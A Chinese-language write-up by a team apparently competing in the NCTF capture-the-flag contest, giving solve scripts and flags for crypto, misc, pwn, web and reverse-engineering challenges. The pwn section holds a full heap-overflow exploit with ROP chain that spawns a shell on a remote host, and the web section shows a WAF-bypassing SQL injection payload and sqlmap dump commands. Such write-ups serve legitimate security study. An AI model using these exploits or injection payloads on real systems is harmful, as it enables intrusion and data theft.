

## 目录

## CRYPTO

### Signin

many-time-pads，直接现成脚本跑

```python
import os

import Crypto.Util.strxor as xo
import libnum, codecs, numpy as np
from Crypto.Util.number import *
from pwn import *
from string import printable, ascii_lowercase
from Crypto.Cipher import AES


def isChr(x):
    if ord('a') <= x <= ord('z'): return True
    if ord('A') <= x <= ord('Z'): return True
    return False


def infer(index, pos):
    if msg[index, pos] != 0:
        return
    msg[index, pos] = ord(' ')
    for x in range(len(c)):
        if x != index:
            msg[x][pos] = xo.strxor(c[x], c[index])[pos] ^ ord(' ')


def know(index, pos, ch):
    msg[index, pos] = ord(ch)
    for x in range(len(c)):
        if x != index:
            msg[x][pos] = xo.strxor(c[x], c[index])[pos] ^ ord(ch)


dat = []


def getSpace():
    for index, x in enumerate(c):
        res = [xo.strxor(x, y) for y in c if x != y]
        f = lambda pos: len(list(filter(isChr, [s[pos] for s in res])))
        cnt = [f(pos) for pos in range(len(x))]
        for pos in range(len(x)):
            dat.append((f(pos), index, pos))


c = [codecs.decode(x.strip().encode(), 'hex') for x in open('Problem.txt', 'r').readlines()]

msg = np.zeros([len(c), len(c[0])], dtype=int)

getSpace()

dat = sorted(dat)[::-1]
for w, index, pos in dat:
    infer(index, pos)

print('\n'.join([''.join([chr(c) for c in x]) for x in msg]))

msg = b'The output feedback (OFB) mode m'
c = 'a4f4e14877f4b16d169b2899d40238271f156cf7e70afbf85f42f2619541b3c091f7e11b38e0e57f0f806b9491043535161375f7a62bc9d55603bf7d884af0c582f3ea076df2e56e179d6d9edc473f2c0e1e62a5e165f4ce5605fa609456f2d995efa4037df8b669118a69929105302a1d1d74fbef32d5d3150abf6f8341b3d998f9ea4840ce977807cf7f96c50f7c31161327a7a324d4d40207e77ad146ffc293f7f7486ceee57a069b288bd9027c2617066fb2bd31d8c2024cbf448457e78d91efa41f71f5ad3d0c9b609ac3472f310c1366baef26d4ca1e07ed7ddd04f5c199ecf40176e6e57c438d618b910e32650a1e62f7ac2ccdd21310eb6b8950b3dd82f3e01d7be4b63d02cf6e93d8172c201a5665bebb65d4d45616f76bd154ffcc99f2f00d60f5e57c17cf7c97d4472f24131327bba026dcce1f0df120d170fbc483bcf41a77f1a06f1796289edd0b33320d566ab6a13c9ddf0410f07cdc47fcdf82f9e71c71efa23d00806c9ac247282a5e1072b9ac31d4d51842f1618349f2c19ce5a40d6ee4ab3d14876d9191062c35121f62b3ef27d8dc1910fa2e944af0df89ecf00177efeb'
key = bytes_to_long(msg) ^ int(c[:64], 16)
print(key)
print(long_to_bytes(key ^ int(c[64:128], 16)))
print(len(c) // 64)
m = ''
for i in range(len(c) // 64):
    m += long_to_bytes(key ^ int(c[i * 64:(i + 1) * 64], 16)).decode()
print(m)
tmp = c[13 * 64:]
tmp += '00' * 9
print(tmp)

m += 'yption.'
print(hashlib.md5(m.encode()).hexdigest())
```

NCTF{4_FUNNY_CrYP70_516N1N}

### dp_promax

放 factordb 里面就能分出来

```python
N = 46460689902575048279161539093139053273250982188789759171230908555090160106327807756487900897740490796014969642060056990508471087779067462081114448719679327369541067729981885255300592872671988346475325995092962738965896736368697583900712284371907712064418651214952734758901159623911897535752629528660173915950061002261166886570439532126725549551049553283657572371862952889353720425849620358298698866457175871272471601283362171894621323579951733131854384743239593412466073072503584984921309839753877025782543099455341475959367025872013881148312157566181277676442222870964055594445667126205022956832633966895316347447629237589431514145252979687902346011013570026217
e = 13434798417717858802026218632686207646223656240227697459980291922185309256011429515560448846041054116798365376951158576013804627995117567639828607945684892331883636455939205318959165789619155365126516341843169010302438723082730550475978469762351865223932725867052322338651961040599801535197295746795446117201188049551816781609022917473182830824520936213586449114671331226615141179790307404380127774877066477999810164841181390305630968947277581725499758683351449811465832169178971151480364901867866015038054230812376656325631746825977860786943183283933736859324046135782895247486993035483349299820810262347942996232311978102312075736176752844163698997988956692449
c = 28467178002707221164289324881980114394388495952610702835708089048786417144811911352052409078910656133947993308408503719003695295117416819193221069292199686731316826935595732683131084358071773123683334547655644422131844255145301597465782740484383872480344422108506521999023734887311848231938878644071391794681783746739256810803148574808119264335234153882563855891931676015967053672390419297049063566989773843180697022505093259968691066079705679011419363983756691565059184987670900243038196495478822756959846024573175127669523145115742132400975058579601219402887597108650628746511582873363307517512442800070071452415355053077719833249765357356701902679805027579294
p = 3628978044425516256252147348112819551863749940058657194357489608704171827031473111609089635738827298682760802716155197142949509565102167059366421892847010862457650295837231017990389942425249509044223464186611269388650172307612888367710149054996350799445205007925937223059
q = N // p
phi = (p - 1) * (q - 1)
d = inverse(e, phi)
print(long_to_bytes(pow(c, d, N)))
```

nctf{Th1s_N_May_n0t_s0@o0@@\_secur3}

### Coloratura

前四行因为是随机数和全黑像素随机，所以是已知的，可以恢复随机数生成器状态。

```python
import uuid
from randcrack import RandCrack
from Crypto.Util.number import *
from PIL import Image, ImageDraw
from random import getrandbits

width = 208
height = 208
# flag = open('flag.txt').read()
flag = ('NCTF{' + str(uuid.uuid4()) + '}')


def makeSourceImg():
    colors = long_to_bytes(getrandbits(width * height * 24))[::-1]
    img = Image.new('RGB', (width, height))
    x = 0
    for i in range(height):
        for j in range(width):
            img.putpixel((j, i), (colors[x], colors[x + 1], colors[x + 2]))
            x += 3
    return img


def makeFlagImg():
    img = Image.new("RGB", (width, height))
    draw = ImageDraw.Draw(img)
    draw.text((5, 5), flag, fill=(255, 255, 255))
    return img


# if __name__ == '__main__':
# img1 = makeSourceImg()
# img2 = makeFlagImg()
# img3 = Image.new("RGB", (width, height))
# for i in range(height):
#     for j in range(width):
#         p1, p2 = img1.getpixel((j, i)), img2.getpixel((j, i))
#         img3.putpixel((j, i), tuple([(p1[k] ^ p2[k]) for k in range(3)]))
# for i in range(5):
#     for j in range(208):
#         assert img3.load()[j, i] == img1.load()[j, i]
#     img3.save('attach.png')
num = ''
img1 = Image.open('attach.png')
data = []
for i in range(4):
    for j in range(208):
        num += (hex(img1.load()[j, i][0])[2:].rjust(2, '0') + hex(img1.load()[j, i][1])[2:].rjust(2, '0') + hex(
            img1.load()[j, i][2])[2:].rjust(2, '0'))
rc = RandCrack()
for i in range(624):
    data.append(bytes_to_long(long_to_bytes(int(num[8 * i:8 * (i + 1)], 16))[::-1]))
    rc.submit(bytes_to_long(long_to_bytes(int(num[8 * i:8 * (i + 1)], 16))[::-1]))
m = ''
for i in range(height * width * 24 - 624):
    data.append(rc.predict_getrandbits(32))
for i in data[::-1]:
    m += hex(i)[2:].rjust(8, '0')
m = int(m, 16)
print(1)
colors = long_to_bytes(m)[::-1]
img = Image.new('RGB', (width, height))
x = 0
for i in range(height):
    for j in range(width):
        img.putpixel((j, i), (colors[x], colors[x + 1], colors[x + 2]))
        x += 3
img3 = Image.new("RGB", (width, height))
for i in range(height):
    for j in range(width):
        p1, p2 = img1.getpixel((j, i)), img.getpixel((j, i))
        img3.putpixel((j, i), tuple([(p1[k] ^ p2[k]) for k in range(3)]))
img3.show()
```


## MISC

misc，AK！

### Signin

ida 动态调试 patch 到指定地点，慢慢猜


### 只因因

拿第二段 DNA 去网站上搜索，可以搜到一个叫 CFTR 的基因片段，就是 flag。


### qrssssssss

脚本输出每张二维码的内容以及修改时间

```python
# coding: UTF-8
from PIL import Image
import pyzbar.pyzbar as pyzbar
import os

def qrcode_parse_content(img_path):
    '''
    单张图片的二维码解析
    '''
    img = Image.open(img_path)

    #使用pyzbar解析二维码图片内容
    barcodes = pyzbar.decode(img)

    #打印解析结果，从结果上可以看出，data是识别到的二维码内容，rect是二维码所在的位置
    # print(barcodes)
    # [Decoded(data=b'http://www.h3blog.com', type='QRCODE', rect=Rect(left=7, top=7, width=244, height=244), polygon=[Point(x=7, y=7), Point(x=7, y=251), Point(x=251, y=251), Point(x=251, y=7)])]

    result = []
    for barcode in barcodes:
        barcode_content = barcode.data.decode('utf-8')
        result.append(barcode_content)

    return result

def load_imgs(folder):
    '''
    加载文件夹下的图片
    '''
    imgs = []
    for img_path in os.listdir(folder):
        ext = os.path.splitext(img_path)
        if len(ext) > 1 and is_img(ext[1]):
            imgs.append(img_path)

    return imgs

def is_img(ext):
    '''
    判断文件后缀是否是图片
    '''
    ext = ext.lower()
    if ext == '.jpg':
        return True
    elif ext == '.png':
        return True
    elif ext == '.jpeg':
        return True
    elif ext == '.bmp':
        return True
    else:
        return False

if __name__ == "__main__":
    # path = "C:/Users/KG/Desktop/1/"
    path = 'C://Users/KG/Downloads/qrssssssss/'
    imgs = load_imgs(path) # 打开图片文件夹，我这里是当前程序运行目录
    contents = []
    for img in imgs:
        print(img,end='\t')
        old_name = img[:15]
        # print(old_name)
        print(qrcode_parse_content(path+img)[0],end='\t')
        print(os.path.getatime(path+img),end='\t')
        print(os.path.getctime(path+img),end='\t')
        print(os.path.getmtime(path+img))
        # new_name = old_name+'_'+qrcode_parse_content(path+img)[0]+'.png'
        # print(old_name+'_'+new_name+'.png')
        # print(qrcode_parse_content(path+img))
        # os.rename(path+img, path+new_name)
        # contents.extend(qrcode_parse_content(path+img))
```

将输出导入 excel


根据修改时间排序，输出扫描结果

NCTF{737150-eeb-465-e91-110a8fb}

### qrssssssss_revenge

根据 hint LMQH，查到二维码的纠错级别


根据描述写脚本输出二维码纠错级别

```python
# coding: UTF-8
from PIL import Image
import pyzbar.pyzbar as pyzbar
import os

def qrcode_parse_content(img_path):
    '''
    单张图片的二维码解析
    '''
    img = Image.open(img_path)

    #使用pyzbar解析二维码图片内容
    barcodes = pyzbar.decode(img)

    #打印解析结果，从结果上可以看出，data是识别到的二维码内容，rect是二维码所在的位置
    # print(barcodes)
    # [Decoded(data=b'http://www.h3blog.com', type='QRCODE', rect=Rect(left=7, top=7, width=244, height=244), polygon=[Point(x=7, y=7), Point(x=7, y=251), Point(x=251, y=251), Point(x=251, y=7)])]

    result = []
    for barcode in barcodes:
        barcode_content = barcode.data.decode('utf-8')
        result.append(barcode_content)

    return result

def load_imgs(folder):
    '''
    加载文件夹下的图片
    '''
    imgs = []
    for img_path in os.listdir(folder):
        ext = os.path.splitext(img_path)
        if len(ext) > 1 and is_img(ext[1]):
            imgs.append(img_path)

    return imgs

def is_img(ext):
    '''
    判断文件后缀是否是图片
    '''
    ext = ext.lower()
    if ext == '.jpg':
        return True
    elif ext == '.png':
        return True
    elif ext == '.jpeg':
        return True
    elif ext == '.bmp':
        return True
    else:
        return False


def get_level(i):
    img = Image.open(i)
    if img.load()[10, 170] == 0 and img.load()[30, 170] == 0:
        return(i, 'L')
    if img.load()[10, 170] == 0 and img.load()[30, 170] == 255:
        return(i, 'M')
    if img.load()[10, 170] == 255 and img.load()[30, 170] == 0:
        return(i, 'Q')
    if img.load()[10, 170] == 255 and img.load()[30, 170] == 255:
        return(i, 'H')


if __name__ == "__main__":
    path = "C:/Users/KG/Desktop/1/"
    # path = 'C://Users/KG/Downloads/qrssssssss/'
    imgs = load_imgs(path) # 打开图片文件夹，我这里是当前程序运行目录
    contents = []

    for img in imgs:

        old_name = img[:15]
        print(old_name,end='\t')
        print(qrcode_parse_content(path+img)[0],end='\t')
        print(get_level(path+img)[1],end='\t')
        print(os.path.getatime(path+img),end='\t')
        print(os.path.getctime(path+img),end='\t')
        print(os.path.getmtime(path+img))
        # new_name = old_name+'_'+qrcode_parse_content(path+img)[0]+'.png'
        # print(old_name+'_'+new_name+'.png')
        # print(qrcode_parse_content(path+img))
        # os.rename(path+img, path+new_name)
```

同理导出到 excel 里


发现根据 LMQH 排序的话，是满足 flag 的顺序的


后续在每一个纠错等级的图片中根据扫描出来的内容找出八张不一样二维码，分别查询他们的掩码，根据掩码排序即为 flag

NCTF{62130783efd44b3692b4ddbecf}



### 炉边聚会

根据提示“再组一套卡组”和给的附件字符串格式，确定为炉石卡组代码

百度炉石卡组代码解析 照抄 https://www.zhihu.com/question/292381536 中的解析脚本

解析数组中卡牌 id 对应位置为 flag 的十进制 ascii 码\*10

flag 为`NCTF{HearthStone_C0de_S000_FunnY_ri9ht?}`

解析脚本

```php
<?phpfunction read_varint(&$data) {
    $shift = 0;
    $result = 0;
    do {
        $c = array_shift($data);
        $result |= ($c & 0x7f) << $shift;
        $shift += 7;
    }
    while ($c & 0x80);
    return $result;
}

function parse_deck($data) {
    $reserve = read_varint($data);
    if ($reserve != 0) {
        printf("Invalid deckstring");
        die;
    }
    $version = read_varint($data);
    if ($version != 1) {
        printf("Unsupported deckstring version %s", $version);
        die;
    }
    $format = read_varint($data);
    $heroes = [];
    $num_heroes = read_varint($data);
    for ($i = 0; $i < $num_heroes; $i++) {
        $heroes[] = read_varint($data);
    }
    $cards = [];
    $num_cards_x1 = read_varint($data);
    for ($i = 0; $i < $num_cards_x1; $i++) {
        $card_id = read_varint($data);
        $cards[] = [$card_id, 1];
    }
    $num_cards_x2 = read_varint($data);
    for ($i = 0; $i < $num_cards_x2; $i++) {
        $card_id = read_varint($data);
        $cards[] = [$card_id, 2];
    }
    $num_cards_xn = read_varint($data);
    for ($i = 0; $i < $num_cards_xn; $i++) {
        $card_id = read_varint($data);
        $count = read_varint($data);
        $cards[] = [$card_id, $count];
    }
    return [$cards, $heroes, $format];
}

$deckstring = "AAEDAZoFKIwGngXIBrwFzgnQBfIHygf0CIgJkAi+BogJ1gjMCPIHtgeeBeAD6AfyB7YHvgbgA+AD4AO2B7wFkgnMCMwI+ga2B/QImgi6BJAIiAn2BOIJAAA=";
#$deckstring = "AAECAZ/HAgKjoASg6wUOoegDrYoEhJ8EhZ8Evp8Ev58EwZ8E758EoaAEy6AE9NME9dMEhqQF9OsFAA==";$binary = base64_decode($deckstring);
$hex = bin2hex($binary);
$arr = str_split($hex, 2);
$arr = array_map("hexdec", $arr);
$arr = parse_deck($arr);
var_dump($arr);
```

解析结果

```bash
array(3) {
  [0]=>
  array(40) {
    [0]=>
    array(2) {
      [0]=>
      int(780)
      [1]=>
      int(1)
    }
    [1]=>
    array(2) {
      [0]=>
      int(670)
      [1]=>
      int(1)
    }
    [2]=>
    array(2) {
      [0]=>
      int(840)
      [1]=>
      int(1)
    }
    [3]=>
    array(2) {
      [0]=>
      int(700)
      [1]=>
      int(1)
    }
    [4]=>
    array(2) {
      [0]=>
      int(1230)
      [1]=>
      int(1)
    }
    [5]=>
    array(2) {
      [0]=>
      int(720)
      [1]=>
      int(1)
    }
    [6]=>
    array(2) {
      [0]=>
      int(1010)
      [1]=>
      int(1)
    }
    [7]=>
    array(2) {
      [0]=>
      int(970)
      [1]=>
      int(1)
    }
    [8]=>
    array(2) {
      [0]=>
      int(1140)
      [1]=>
      int(1)
    }
    [9]=>
    array(2) {
      [0]=>
      int(1160)
      [1]=>
      int(1)
    }
    [10]=>
    array(2) {
      [0]=>
      int(1040)
      [1]=>
      int(1)
    }
    [11]=>
    array(2) {
      [0]=>
      int(830)
      [1]=>
      int(1)
    }
    [12]=>
    array(2) {
      [0]=>
      int(1160)
      [1]=>
      int(1)
    }
    [13]=>
    array(2) {
      [0]=>
      int(1110)
      [1]=>
      int(1)
    }
    [14]=>
    array(2) {
      [0]=>
      int(1100)
      [1]=>
      int(1)
    }
    [15]=>
    array(2) {
      [0]=>
      int(1010)
      [1]=>
      int(1)
    }
    [16]=>
    array(2) {
      [0]=>
      int(950)
      [1]=>
      int(1)
    }
    [17]=>
    array(2) {
      [0]=>
      int(670)
      [1]=>
      int(1)
    }
    [18]=>
    array(2) {
      [0]=>
      int(480)
      [1]=>
      int(1)
    }
    [19]=>
    array(2) {
      [0]=>
      int(1000)
      [1]=>
      int(1)
    }
    [20]=>
    array(2) {
      [0]=>
      int(1010)
      [1]=>
      int(1)
    }
    [21]=>
    array(2) {
      [0]=>
      int(950)
      [1]=>
      int(1)
    }
    [22]=>
    array(2) {
      [0]=>
      int(830)
      [1]=>
      int(1)
    }
    [23]=>
    array(2) {
      [0]=>
      int(480)
      [1]=>
      int(1)
    }
    [24]=>
    array(2) {
      [0]=>
      int(480)
      [1]=>
      int(1)
    }
    [25]=>
    array(2) {
      [0]=>
      int(480)
      [1]=>
      int(1)
    }
    [26]=>
    array(2) {
      [0]=>
      int(950)
      [1]=>
      int(1)
    }
    [27]=>
    array(2) {
      [0]=>
      int(700)
      [1]=>
      int(1)
    }
    [28]=>
    array(2) {
      [0]=>
      int(1170)
      [1]=>
      int(1)
    }
    [29]=>
    array(2) {
      [0]=>
      int(1100)
      [1]=>
      int(1)
    }
    [30]=>
    array(2) {
      [0]=>
      int(1100)
      [1]=>
      int(1)
    }
    [31]=>
    array(2) {
      [0]=>
      int(890)
      [1]=>
      int(1)
    }
    [32]=>
    array(2) {
      [0]=>
      int(950)
      [1]=>
      int(1)
    }
    [33]=>
    array(2) {
      [0]=>
      int(1140)
      [1]=>
      int(1)
    }
    [34]=>
    array(2) {
      [0]=>
      int(1050)
      [1]=>
      int(1)
    }
    [35]=>
    array(2) {
      [0]=>
      int(570)
      [1]=>
      int(1)
    }
    [36]=>
    array(2) {
      [0]=>
      int(1040)
      [1]=>
      int(1)
    }
    [37]=>
    array(2) {
      [0]=>
      int(1160)
      [1]=>
      int(1)
    }
    [38]=>
    array(2) {
      [0]=>
      int(630)
      [1]=>
      int(1)
    }
    [39]=>
    array(2) {
      [0]=>
      int(1250)
      [1]=>
      int(1)
    }
  }
  [1]=>
  array(1) {
    [0]=>
    int(666)
  }
  [2]=>
  int(3)
}
```

### zystego

一张图片 fd.png，用 foremost 可以分离出一个压缩包。不知道咋搞就放着爆破，居然出了。


解压压缩包之后得到 flag.txt 和 something。flag.txt 是四层 base64 解码的 fakeflag。。


something 是 gpg 私钥文件。

再次观察 fd.png，发现最右边有三排像素点。裁剪下来，使用 stegsolve 提取 lsb 数据，得到一段 python 代码和 gpg 的密码：%$#%$#jhgasdfg76342t


```python
from cv2 import cv2

img1 = np.float32(cv2.imread(r"fd.png", 1))

str = ''
nums = []
for i in range(64):
    for j in range(64):
        for k in range(3):
            data = img1[:, :, k]
            num = cv2.dct(data[8 * i:8 * i + 8, 8 * j:8 * j + 8])
            nums.append(num[7, 7])
        if max(nums) > 10:
            str += '1'
        if min(nums) < -10:
            str += '0'
        nums = []
print(str)
```

拿到一串 01 后放到 010editor 里面发现是个压缩包，用 pgp 密钥解密里面的文件得到 flag。

NCTF{zys_1s_s0_V3g3T@13lE_qwq}

### Signout

NCTF{Thanks_for_your_participation}

## PWN

### babyLinkedList

edit 有 0x10 的溢出，可以用来更改链表的指针，实现任意地址读写。泄露 libc 后利用环境变量泄露栈地址，在 ret 地址上构造 ROP。拿到 shell 之后，用 date 提权查看 flag

```python
from pwn import *

# context.log_level = 'debug'
context.os = 'linux'
context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

libc = ELF('./libc.so')
key = 0
debug = 1
ip = '47.102.111.242'
port = 8002
if debug:
    io = remote(ip,port)
else:
    io = process(argv=['./libc.so', './babyLinkedList'])

def p():
    gdb.attach(proc.pidof(io)[0])

def add(size,text):
    io.sendlineafter('>>','1')
    io.sendlineafter('Please input size',str(size))
    io.sendafter('Please input content',text)

def free():
    io.sendlineafter('>>','2')

def show():
    io.sendlineafter('>>','3')

def edit(text):
    io.sendlineafter('>>','4')
    io.send(text)

# p()
add(0x18,'aaaa')
# free()
# p()
add(0x18,'aaaa')
add(0x18,'aaaa')
add(0x18,'aaaa')
add(0x18,'aaaa')
for i in range(8):
    add(0xb0,'a')

for i in range(8):
    free()
# p()
add(0xb0,'a')
free()
payload = b'a'*0x18 + p64(0x000e870000000000) +b'\x80'
edit(payload)
show()

io.recvuntil('Content: ')
libcbase = u64(io.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')) - 0xa6ed0
envir = libcbase + 0xa5d00
success('libcbase-->'+hex(libcbase))
success('envir-->'+hex(envir))
# p()
# edit('a'*0x18)
add(0x18,'a')
# free()
# free()
payload = b'a'*0x18 + p64(0x000a850000000000) + p64(envir)
edit(payload)
show()
io.recvuntil('Content: ')
stack = u64(io.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')) - 0x90
success('stack-->'+hex(stack))
system = libcbase + libc.symbols['system']
pop_rdi = libcbase + 0x0000000000015c8e #: pop rdi ; ret
binsh = libcbase + 0x9daf0  #0xa120f
success('system-->'+hex(system))

add(0x18,'aaaa')
payload = b'a'*0x18 + p64(0x0012890000000000) + p64(stack)
# # p()
edit(payload)
payload = p64(pop_rdi) + p64(binsh) + p64(system)
edit(payload)

io.interactive()
```


## WEB

### ezbypass

根据 WAF 是 modsecurity

```plaintext
http://162.14.110.241:8099/sql.php?id=1 and gtid_subset(concat(0x71,(select database/**_**/()),0x71),71)
```

读取到当前数据库为 users


sqlmap

```bash
sqlmap -u http://162.14.110.241:8099/sql.php?id=1 -v 3 -D users --tables --random-agent
```


表名为 table

```bash
sqlmap -u http://162.14.110.241:8099/sql.php?id=1 -v 3 -D users -T info --columns --random-agent
```


dump password

```bash
sqlmap -u http://162.14.110.241:8099/sql.php?id=1 -v 3 -D users -T info --dump --random-agent
```


nctf{9815e617-dd93-4bf4-bddf-7a972e916c36}

### ez_php

瞎试的时候发现有个 123.php，用 123 连接成功了。。静态容器非预期了


nctf{61c18f463f17cd82b7fac5a4c07dff23}

## REVERSE

第一次 ak，真爽

### ez_rev

拖入 ida，除了检查格式外，对主体是一个方程组一样的加密，z3 解即可

```python
from z3 import *
m = [0x7A, 0x08, 0x2E, 0xBA, 0xAD, 0xAF, 0x82, 0x8C, 0xEF, 0xD8,
  0x0D, 0xF8, 0x99, 0xEB, 0x2A, 0x16, 0x05, 0x43, 0x9F, 0xC8,
  0x6D, 0x0A, 0x7F, 0xBE, 0x76, 0x64, 0x2F, 0xA9, 0xAC, 0xF2,
  0xC9, 0x47, 0x75, 0x75, 0xB5, 0x33]
key = [0x7E, 0x1F, 0x19, 0x75]

flag = ''
for j in range(9):
    s = Solver()
    a = [BitVec(f"a[{i}]",16)for i in range(4)]
    # x,y,z,k = Ints("x y z k")
    s.add(m[4*j] == (a[3]*(key[2]-key[0]) + (a[0]+a[3])*(key[0]+key[3]) + (key[3]+key[2])*(a[1]-a[3]) - key[3]*(a[0]+a[1])) & 0xff)
    s.add(m[4*j+2] == (key[0]*(a[2]+a[3]) + a[3]*(key[2]-key[0])) & 0xff)
    s.add(m[4*j+1] == (a[0]*(key[1]-key[3]) + key[3]*(a[0]+a[1])) & 0xff)
    s.add(m[4*j+3] == (a[0]*(key[1]-key[3]) + (key[1]+key[0])*(a[2]-a[0]) + (a[0]+a[3])*(key[0]+key[3]) - key[0]*(a[2]+a[3])) & 0xff)
    # print(s.check())
    assert s.check() == z3.sat
    solve1 = s.model()
    flag += "".join([chr(solve1.eval(j).as_long()) for j in a])
print(flag)

# f6dffab6-173f-4bb1-a973-62f3f8254eba
```

### Just run it

ida 打开，发现要输入 key 和明文


首先是 key，利用动态调试得到 sub_405baf 的替换表，异或解密即可，脚本如下

```python
a = [0x46, 0x7C, 0xC1, 0x31, 0x67, 0xA2, 0xB4, 0x0D, 0x32, 0x11,
  0x50, 0x15, 0x83, 0x3C, 0x14, 0x57]
table = [0,1,4,8,5,2,3,6,9,12,13,10,7,11,14,15]
m = [0]*16
key = [0]*16
for i in range(16):
    m[table.index(i)] = k_m[i]
for i in range(16):
    m[i] ^= a[i]
    # print(chr(m[i]^a[i]),end='')
for i in range(16):
    key[table.index(i)] = m[i]
print(bytes(key))
# 1267
# 358c
# 49bd
# 0aef

# b'W1lc0menctf2o2o!'
```

之后在密钥扩展函数发现数字，搜索发现是 SM4 加密常量，直接在线求解


### Ccccha

代码里面十成甚至九成全是花指令，idc 脚本脱花，脚本如下

```c
//文件名：test.idc
#include <idc.idc>
static main()
{
    auto x,FBin,ProcRange;
    FBin = "53 53 9C E8 00 00 00 00 5B 48 81 C3";
    //目标 = "E8 0A tel:00 00 00 90 EB 0C tel:90 90 90 90 90 90 90";
    //花指令1的特征码
    for (x = FindBinary(MinEA(),0x03,FBin);x != BADADDR;x = FindBinary(x,0x03,FBin))
    {
            //print("%d %d",Byte(x),Byte(x+1));
            PatchByte (x,0x90);
            x++;
            PatchWord (x,0x9090);
            x =x + 2 ;
            PatchByte (x,0xE9);
            x++;
            PatchByte (x,Byte(x+8));
            x++;
            PatchByte (x,Byte(x+8));
            x++;
            PatchByte (x,Byte(x+8));
            x++;
            PatchByte (x,Byte(x+8));
            x++;
            PatchDword(x,0x90909090);
            x =x + 4 ;
            PatchDword(x,0x90909090);
            x =x + 4 ;
            PatchDword(x,0x90909090);
            x =x + 4 ;
            PatchDword(x,0x90909090);
    }
}

//文件名：test.idc
#include <idc.idc>
static main()
{
    auto x,FBin,ProcRange;
    FBin = "53 53 9C E8 00 00 00 00 5B 48 83 C3";
    //目标 = "E8 0A tel:00 00 00 90 EB 0C tel:90 90 90 90 90 90 90";
    //花指令1的特征码
    for (x = FindBinary(MinEA(),0x03,FBin);x != BADADDR;x = FindBinary(x,0x03,FBin))
    {
            //print("%d %d",Byte(x),Byte(x+1));
            PatchWord (x,0x9090);
            x =x + 2 ;
            PatchDword(x,0x90909090);
            x =x + 4 ;
            PatchByte (x,0xEB);
            x++;
            PatchByte (x,Byte(x+5));
            x++;
            PatchByte (x,0x90);
            x++;
            PatchDword(x,0x90909090);
            x =x + 4 ;
            PatchDword(x,0x90909090);
            x =x + 4 ;
            PatchDword(x,0x90909090);
            x =x + 4 ;
            PatchDword(x,0x90909090);
    }
}

//文件名：test.idc
#include <idc.idc>
static main()
{
    auto x,FBin,ProcRange;
    FBin = "9C 50 48 3D 22 20 00 00 77 04 7E 02 E8 E8 58 9D";
    //目标 = "E8 0A tel:00 00 00 90 EB 0C tel:90 90 90 90 90 90 90";
    //花指令1的特征码
    for (x = FindBinary(MinEA(),0x03,FBin);x != BADADDR;x = FindBinary(x,0x03,FBin))
    {
            PatchDword(x,0x90909090);
            x =x + 4 ;
            PatchDword(x,0x90909090);
            x =x + 4 ;
            PatchDword(x,0x90909090);
            x =x + 4 ;
            PatchDword(x,0x90909090);
    }
}


//文件名：test.idc
#include <idc.idc>
static main()
{
    auto x,FBin,ProcRange;
    FBin = "53 52 5A 5B";
    //目标 = "E8 0A tel:00 00 00 90 EB 0C tel:90 90 90 90 90 90 90";
    //花指令1的特征码
    for (x = FindBinary(MinEA(),0x03,FBin);x != BADADDR;x = FindBinary(x,0x03,FBin))
    {
            //print("%d %d",Byte(x),Byte(x+1));

            PatchDword(x,0x90909090);

    }
}

//文件名：test.idc
#include <idc.idc>
static main()
{
    auto x,FBin,ProcRange;
    FBin = "53 5B";
    //目标 = "E8 0A tel:00 00 00 90 EB 0C tel:90 90 90 90 90 90 90";
    //花指令1的特征码
    for (x = FindBinary(MinEA(),0x03,FBin);x != BADADDR;x = FindBinary(x,0x03,FBin))
    {
            //print("%d %d",Byte(x),Byte(x+1));

            PatchWord(x,0x9090);

    }
}
```

之后 7.5 的 ida 反编译结果死活不对，7.6 就可以了，效果如下


就是一个异或和加的加密，动态调试把 v3dump 下来求解即可

```python
v9 = [0]*5
v9[0] = 0x23CE4B73757CC05E
v9[1] = 0x708F01F3AC89BBA4
v9[2] = 0x62D45B4183317FC8
v9[3] = 0x4B50FC9DDC27A7A6
v9[4] = 0x385117386B2F9806
v10 = 0xEF2F

m = []
for i in range(5):
    for j in range(8):
        m.append((v9[i]>>(j*8))&0xff)
m.append(0x2f)
m.append(0xef)

v3 = [0x24AA2514342EFC10,0x57B9D9D0924BD6AA,0x668A271F44325F8F,0x1900ECACA269BCB6,0x774EC7717C3840DF,
    0xD878E3846E0EBB32,0x333B37F8775FB9CE,0x0C93421A59B75BB4,0x6A05A2805023EE57,0x12CFEBEC73124005,
    0xF060C3D29ED918C4,0x45613036DB175B72,]
k = []
for i in range(12):
    for j in range(8):
        k.append((v3[i]>>(j*8))&0xff)

for i in range(42):
    m[i] = (((m[i]-i)&0xff)^k[i])
print(bytes(m))

# b'NCTF{cb86d437-8671-42a4-82dc-3259754e5ef5}'
```

### Ovm

只有减法的 vm 混淆。dump 脚本如下

```python
opcode = [0,1,0,0,0,0,0,0,0,0x6, 0x6, 0x0, 0x6f0a, 0x0, 0x0, 0x0, 0x6, 0x0, 0x0,
            ......
        0x0, 0x0, 0xffffffff]
print(len(opcode))
# for i in range(28433,28433+50):
#     print(f"opcode[{i}]",opcode[i])

# print(opcode.index(0x6f3b))
# print(opcode[28433])
# print(opcode[28434])
# print(opcode[28435])
# print(opcode[28436])
# print(opcode[28437])
# 28433~28474
